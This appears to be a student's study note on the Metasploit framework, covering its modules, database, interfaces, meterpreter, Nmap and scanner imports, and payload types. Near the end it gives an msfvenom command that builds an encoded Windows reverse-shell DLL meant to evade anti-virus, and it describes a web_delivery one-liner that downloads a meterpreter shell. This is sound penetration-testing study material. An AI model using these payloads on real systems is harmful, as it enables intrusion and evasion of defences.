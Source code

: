 Metasploit is an exploitation framework 
Exploit is a piece of code that takes advantage us a given vulnerability in the target, with the purpose of running a payload that does a indented action of the target. 

Metasploit also have other modules such as auxiliary which provide other capabilities such as port scanning, vulnerability checks, and other features. 
Another module is called post which is used after the exploitation phase, such as steal valuable information. 

Metasploit can both access a local or remote PostgreSQL database for storing and analyzing results.
- Contains information about creds, loot, notes, hosts, services, vulns on host. 
- One way to enrich information in database is using auxiliary modules.
you can interact with the information using the name of the table
	- example of usage https://www.offensive-security.com/metasploit-unleashed/using-databases/
	
User interfaces
msfconsole metasploit command prompt. 
msfd a listens on TCP port 55554, allowing msfconsole access.
msfrpcd control metasploit through XML over RPC on TCP port 55553
Armitage is a GUI that controls metasploit through msfrpcd, is no longer updated  
msfcli 
maspayload convert payload into a stand-alone file
msfencode take a raw payload and encode it to evade strict signature of [[IDS]], [[IPS]] and [[Anti-virus]].  


Metasploit cheat sheet: https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf

Metasploit meterpreter acts as a shell running inside of a exploited process
	- no process created. 
	- works on wind, linux, php, java and mac.
	- communication is encrypted with TLS. 
Meterpreter commands can be seen in the cheat sheet. 
msfmap is a port scanning module that can be loaded.
	load msfmap 
	
Metasploit nmap interaction
	- using db-nmap allows you to invoke [[Nmap]] from metasploit. 
	- Commands are the same as Nmap. 
	
Import data from [[Vulnerability Scanning]]
	- using db_import {filename} 
	allows metasploit to automatically import the information from the file, 
	and added to the host. 
	 Supported scanners file 
	 	- [[Nmap]]
	 	- NeXpose
		- [[Nessus]]
		
		 ^998485
import module from exploit_db 
download the module to the folder 
/root/.msf4/modules/
msfdb reinit to restart the database 
start msfconsole 
search for the new exploit


### Exploits 
#### web_delivery module 
One line python command which can be use to create a reverse_tcp meterpreter connection by opening a url in python and downloading the exploit from the hacker site. 


### MSFVenom 
is a combination of msfpayload and masfencode putting these tools into a single framework instance is allows the user to create a payload which can be used on the target machine, MSFVenom allows the payload to be target to different platforms and formats. another tools msfvenom also comes with is encoded or scrambling of the payload to ensure that the anti virus does not detect the malware. 
shikata_ga_nai is a common encoding type used for scrambling the malware. 
2
usage : 
msfvenom -p windows/meterpreter/reverse_tcp lhost=**IP**  lport=4444 -e x86/shikata_ga_nai -i 10 -f dll > payload.dll


## Payload
The way to identify if it staged or non-staged payload is by the **/** which indicate the type of payload.

### Staged 
Sends the payload in stages, can be less stable

example : windows/meterpreter/reverse_tcp

### non-staged 
Send the full exploit shellcode at once, It larger in size 

example : windows/meterpreter_reverse_tcp
